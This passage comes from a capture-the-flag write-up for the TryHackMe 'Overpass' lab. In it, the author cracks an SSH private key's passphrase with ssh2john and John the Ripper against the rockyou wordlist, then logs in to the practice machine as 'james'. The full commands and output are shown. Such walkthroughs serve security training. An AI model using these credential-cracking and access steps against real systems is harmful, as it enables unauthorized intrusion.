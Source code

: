 So will the SSH key; I tried to connect to the use 'James' with SSH.

```
┌──(kali㉿kali)-[~/Desktop/THM/Overpass]
└─$ ssh -i id_rsa james@10.10.174.135
The authenticity of host '10.10.174.135 (10.10.174.135)' can't be established.
ED25519 key fingerprint is SHA256:FhrAF0Rj+EFV1XGZSYeJWf5nYG0wSWkkEGSO5b+oSHk.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.174.135' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
```

Using ssh2john and then cracking the passphrase.

```
┌──(kali㉿kali)-[~/Desktop/THM/Overpass]
└─$ ssh2john id_rsa > passphrase     
                                                                                                                                                 
┌──(kali㉿kali)-[~/Desktop/THM/Overpass]
└─$ john passphrase --wordlist=/usr/share/wordlists/rockyou.txt                                                              
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
james13          (id_rsa)     
1g 0:00:00:00 DONE (2024-09-30 22:21) 100.0g/s 1337Kp/s 1337Kc/s 1337KC/s pink25..honolulu
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

┌──(kali㉿kali)-[~/Desktop/THM/Overpass]
└─$ ssh -i id_rsa james@10.10.174.135                          
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Sep 30 16:51:34 UTC 2024

  System load:  0.08               Processes:           88
  Usage of /:   22.3% of 18.57GB   Users logged in:     0
  Memory usage: 13%                IP address for eth0: 10.10.174.135
  Swap usage:   0%


47 packages can be updated.
0 updates are security updates.


Last login: Sat Jun 27 04:45:40 2020 from 192.168.170.1
james@overpass-prod:~$ 
```
